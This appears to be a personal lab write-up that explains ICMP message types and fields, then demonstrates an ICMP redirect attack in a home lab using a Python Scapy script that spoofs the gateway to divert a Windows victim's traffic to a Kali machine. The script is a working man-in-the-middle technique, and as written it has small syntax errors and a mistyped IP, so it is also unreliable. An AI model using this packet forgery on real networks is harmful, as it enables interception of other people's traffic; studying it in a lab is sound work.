 # ICMP

ICMP is a layer 3 protocol that is responsible for notifying machine on the network about problems with the IP protocol, as well and managing it.

First, ICMP stands for `Internet Control Message Protocol`. The way it operates is simple, whenever there is an incident with the IP protocol, a message is sent to notify the sending computer of it. An ICMP packet is built very dynamically, there are 3 main fields in it and the rest are dependant.

## Types

Each ICMP message has a code that defines what the meaning of the message is. Here's a list:

| Type | Message                 |
| ---: | :---------------------- |
|    0 | Echo Reply              |
|    3 | Destination Unreachable |
|    4 | Source Quench           |
|    5 | Redirect                |
|    8 | Echo                    |
|   11 | Time Exceeded           |
|   12 | Parameter Problem       |
|   13 | Timestamp               |
|   14 | Timestamp Reply         |
|   15 | Information Request     |
|   16 | Information Reply       |

There were more messages added later on but we will not elaborate on them in this summary.

The most used ICMP messages are the `Echo & Echo Reply` message and the `Destination Unreachable` message.

> #### `Echo & Echo Reply`
>
> The Echo message is an "alive-check", when an echo message gets sent to a machine it will send back an echo reply message. It is a way to know if there is connectivity to a machine. That is what the ping program does.  
>
> Note: If a machine doesn't reply to an echo it does not neccesarily mean that there is no connectivity, it might be a firewall issue.

> #### `Destination Unreachable`
>
> A destination unreachable message is sent when the target machine of a packet above layer 3 is well... unreachable, this message will be sent by a router.

And a bonus message.

> #### `Redirect`
>
> A Redirect message is sent when a router (Likely the LAN's default gateway) routes a packet through another router on the same LAN as the sender machine, in that case it would be better off to send the packet straight to that other router and save a hop. So, the router will send a redirect message to the sender machine and alter their routing table so that next time they will send it to the other ruter immediately.

## Codes

Codes are just like types, but for types. Each message type has different codes that are used to define even more what is the problem. Like, message type `Redirect` has 4 codes (0, 1, 2, 3) that tell it to redirect for a whole network (0), a specific host(1), a specific service from a network (2) or a specific service from a host (3). 

`Destination Unreachable` also has codes (0, 1, 2, 3, 4, 5) for if a net (0), host (1), protocol (2) or a port (3) are unreachable, fragmentation mishap (4) or a routing failure (5).

If a type has no codes then that field will just be 0.

## The rest of the fields

The rest of the field take up the rest of the packet's buffer. The buffer is 64 bits long, 8 for Type, 8 for Code and 16 for checksum leave 32 bits for the other fields which are defualtly reserved. That is because the developers of the protocol thought that someday more types will added so dynamics are required.

The reserved 32 bit buffer is allocated according the type and code, if `Redirect` is sent then the 32 bits will be used to save the IP address of the preffered gateway. If `Destination Unreachable` is sent, the 32 bits are left empty since they have no use.

# ICMP Redirection Attack

An ICMP redirection attack takes advantage of the ICMP redirect message, and an attacker tries to place himself as a gateway for a victim machine on the local network. It is very simple. Here is the network layout:

![Network map, Kali IP change to .4 instead of .5](/Pictures/ICMP_Redirection/Network_Map.png)

The Attacker is the Kali machine (192.168.100.5), My victim is the 'Win10 - 01' machine (192.168.100.1) and the machine I am going to gateway to is the DC (192.168.50.1). Now, let's craft ourself a redirect packet.

*click click*... *keyboard noises*... *Head slaminh against desk*... *more keyboard noises*...

Anddddd there we go!

```
# ICMP Redirect Attack.py
# 05.02.2023
# By Timon

# Imports
from scapy.all import *

# Constants
VICTIM_IP   = "192.168.100.1"
REAL_GW     = "192.168.100.254"
ATTACKER_GW = "192.168.100.4"
TARGET_NET  = "192.168.50.1"
ICMP_TYPE   = 5
ICMP_CODE   = 1

def main():
    malicious_icmp = IP(\
                        src=REAL_GW,\       # I pose as the default gateway of the LAN.
                        dst=VICTIM_IP)/\    # Send it to the victim.
                     ICMP(\
                        type=ICMP_TYPE,\    # Enter type and code.
                        code=ICMP_CODE\
                        gw=ATTACKER_GW)/\   # GW tells victim what gw to route to instead.
                     IP(\
                        src=VICTIM_IP,\     # ICMP require the header of the IP pacet it is
                        dst=TARGET_NET)     # related to. Here we forge an IP header.
    
    send(malicious_icmp)                    # Send the packet on the wire!

if (__name__ == "__main__"):
    main()
```
A python script using scapy, creates a redirect icmp packet and sends it.

At first it did not work, and I didn't know why. The script was perfect and the victim machine recieved the packet, so it was very fraustrating ;-; . But then I found the problem!

Exhibit 1 madafaka, this bitch!

![Default rule for ICMPv4 traffic](/Pictures/ICMP_Redirection/Old_Firewall_Rule.PNG)

On windows, allegedly ICMP redirection is turned on by default. But on the firewall the ICMPv4 rule does not allow ICMP redirection pacets to pass through! Only ICMP echo.

So I made my own rule:

![New rule :)](/Pictures/ICMP_Redirection/New_Firewall_Rule.PNG)

And allowed all ICMP traffic in! Like a good cybersecurity personel. Finally my victim was exposed to ICMP redirection attacks! I ran `tracert 192.158.50.1` on the victim machine and while it was running, I ran the script as well. And *voilà*! It worked!

![tracert](/Pictures/ICMP_Redirection/ICMP_Redirected_Tracert.PNG)

Here you can see a picture of the packet that were sent by the tracert.

![A packet sent to the default gateway](/Pictures/ICMP_Redirection/ICMP_Layer_2_Original.PNG)

Notice the MAC address, this one belongs to the default gateway (192.168.100.254).

![A packet sent to meeeee](/Pictures/ICMP_Redirection/ICMP_Layer_2_Changed.PNG)

The MAC address here belongs to the kali machine.